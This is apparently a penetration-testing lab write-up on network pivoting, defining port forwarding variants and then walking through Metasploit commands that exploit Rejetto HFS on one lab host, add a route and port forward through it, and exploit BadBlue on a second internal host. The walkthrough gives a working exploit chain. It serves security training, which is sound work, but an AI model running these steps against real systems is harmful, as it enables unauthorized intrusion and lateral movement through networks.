

# Pivoting

## Pivoting definitions

Pivoting is a post exploitation technique that involves utilizing a compromised host that is connected to multiple networks to gain access to systems within other networks.

After gaining access to one host, we can the compromised host to exploit other hosts on a private internal network to which we could not access previously.

Meterpreter provides us with the ability to add a network route to the internal network's subnet, perform port forwarding and consequently scan and exploit other systems on the network.

## Different types of pivoting

Port forwarding: The attacker creates a tunnel between two machines via open TCP/IP ports, forwarding packages and traffic from one to another.

There are multiple forms of port forwarding:

- Local port forwarding: The compromised machine “listens” for data and instructions from the attacker’s machine, allowing the attacker to access internal services.

- Remote port forwarding: The attacker maps ports on their machine to local ports on the compromised machine.

- Dynamic port forwarding: The attacker creates a SOCKS proxy server for tunneling traffic, with the compromised machine acting as a middleman between the attacker’s machine and internal services.

- VPN pivoting: The attacker starts a virtual private network (VPN) client on the compromised machine, accessing a remote VPN server. The attacker then sends data from the server to the client and can also access information (e.g., network traffic) from the compromised machine by sending data from the client to the server.

- Proxy pivoting/SSH pivoting: The attacker establishes a local proxy server through SSH. Any connections to the designated port are then forwarded through the proxy to their final destination.

- Routing tables: The attacker changes the routing table of the compromised machine to add a new route. This route will require any traffic sent to the destination to tunnel through the defined gateway, allowing the attacker to capture this data.

## Lab

Victim 1 : 10.0.29.148/20

Victim 2 : 10.0.29.96/20

The attacker's Kali machine communicates with victim 1, but not with victim 2.



## Steps of pivoting scenario (routing tables & remote port forwarding)

1. Enumeration of victim-1 :

```text
:~# nmap -sV -p 80 10.0.29.148
```

2. Use an exploit for compromise victim-1 machine :

```text
:~# searchsploit rejetto
:~# msfconsole
msf6> use exploit/windows/http/rejetto_hfs_exec
msf6> run
meterpreter > sysinfo
meterpreter > getuid
```

3. Next, we need to take a look at the network interfaces available on the victim-1 machine to find other internal networks :

```text
meterpreter > ipconfig
```

4. We'll add a new route between victim-1 machine and victim-2 machine to enable us to communicate with victim-2 :

```text
meterpreter > run autoroute -s 10.0.29.0/20
meterpreter > run autoroute -p
```

5. Let's put the victim-1 session in the background :

```text
meterpreter > background
```

6. Next, we will enumerate victim-2 via victim-1 with tcp port scan module :

```text
msf6 > use auxiliary/scanner/portscan/tcp
msf6 > show options
msf6 > set RHOSTS 10.0.29.96
msf6 > set PORTS 1-100
msf6 > run
```

We can see that port 80/tcp is open on victim-2 machine.

7. We want to enumerate the version on this port 80 with nmap on our Kali machine, so we need to create a port redirection to our local machine :

```text
msf6 > sessions
msf6 > sessions 1
meterpreter > portfwd add -l 1234 -p 80 -r 10.0.29.96
```

8. Now, in new tab of kali machine, we execute nmap scan to victim-2 service with port redirection :

```text
:~# nmap -sV -p 1234 localhost
```

We have identified the http service “Badblue httpd 2.7”.

8. Next, we will launch an exploit on victim-2 to gain access :

```text
msf6 > background (victim-1 session to background)
msf6 > search BadBlue
msf6 > use exploit/windows/http/badblue_passthru
msf6 > set payload windows/meterpreter/bind_tcp
msf6 > set RHOSTS 10.0.29.96
msf6 > run
meterpreter > sysinfo
meterpreter > getuid
```

9. At this point, we have gained access to victim-1 and victim-2 machines, and can list these accesses with the above commands :

```text
meterpreter > background (victim-2 session to background)
meterpreter > sessions
```
